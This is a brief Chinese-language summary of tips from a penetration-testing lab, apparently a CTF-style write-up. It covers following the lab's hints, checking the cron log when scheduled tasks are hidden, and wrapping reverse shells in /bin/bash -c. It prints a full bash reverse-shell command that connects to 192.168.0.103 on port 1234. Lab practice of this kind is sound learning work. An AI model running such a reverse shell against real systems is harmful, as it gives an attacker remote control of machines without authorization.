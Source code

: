 # 总结

根据靶场提示，把提示信息理解了，比如把什么神秘字符串加到web路径中啦，比如把密码本文件名加入到密码本中啦

查找计划任务没找到或没权限查看时，可以看看计划任务的日志信息 `cat /var/log/cronlog`

反弹shell时最好 /bin/bash -c 加参数尝试

```
/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.0.103/1234 0>&1'
```
